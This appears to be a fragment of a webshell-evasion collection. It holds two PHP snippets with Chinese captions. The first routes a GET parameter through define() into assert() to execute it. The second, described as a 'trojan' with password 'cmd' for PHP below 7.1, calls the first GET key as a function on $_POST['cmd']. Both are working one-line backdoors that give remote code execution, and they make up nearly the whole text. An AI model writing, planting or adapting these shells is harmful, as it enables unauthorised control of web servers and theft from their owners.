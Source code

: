 
```php
<?php
sprintf("123");
$a=@$_GET['a'];
define("Test", "$a",true);
assert(TesT);
?>
```

![](img/14.png)

---

**利用get获取数组键名,版本小于7.1**

```php
<?php
//利用key获取数组键名，在木马URL后加上 ?assert=1，密码cmd
$lang = (string)key($_GET);  
$lang($_POST['cmd']);
?>

```
![](img/24.png)
